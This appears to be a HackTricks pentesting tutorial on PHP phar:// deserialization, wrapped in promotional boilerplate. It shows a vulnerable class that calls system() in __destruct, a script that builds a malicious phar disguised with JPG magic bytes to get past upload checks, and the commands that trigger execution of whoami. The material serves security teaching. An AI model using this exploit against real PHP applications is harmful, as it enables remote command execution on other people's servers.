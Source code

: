 # phar:// deserialization

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

<img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt="" data-size="original">

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

**Phar** files (PHP Archive) files **contain meta data in serialized format**, so, when parsed, this **metadata** is **deserialized** and you can try to abuse a **deserialization** vulnerability inside the **PHP** code.

The best thing about this characteristic is that this deserialization will occur even using PHP functions that do not eval PHP code like **file\_get\_contents(), fopen(), file() or file\_exists(), md5\_file(), filemtime() or filesize()**.

So, imagine a situation where you can make a PHP web get the size of an arbitrary file an arbitrary file using the **`phar://`** protocol, and inside the code you find a **class** similar to the following one:

{% code title="vunl.php" %}
```php
<?php
class AnyClass {
	public $data = null;
	public function __construct($data) {
		$this->data = $data;
	}
	
	function __destruct() {
		system($this->data);
	}
}

filesize("phar://test.phar"); #The attacker can control this path
```
{% endcode %}

You can create a **phar** file that when loaded will **abuse this class to execute arbitrary command**s with something like:

{% code title="create_phar.php" %}
```php
<?php

class AnyClass {
	public $data = null;
	public function __construct($data) {
		$this->data = $data;
	}
	
	function __destruct() {
		system($this->data);
	}
}

// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");

// add object of any class as meta data
$object = new AnyClass('whoami');
$phar->setMetadata($object);
$phar->stopBuffering();
```
{% endcode %}

Note how the **magic bytes of JPG** (`\xff\xd8\xff`) are added at the beginning of the phar file to **bypass** **possible** file **uploads** **restrictions**.\
**Compile** the `test.phar` file with:

```bash
php --define phar.readonly=0 create_phar.php
```

And execute the `whoami` command abusing the vulnerable code with:

```bash
php vuln.php
```

### References

{% embed url="https://blog.ripstech.com/2018/new-php-exploitation-technique/" %}

<img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt="" data-size="original">

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
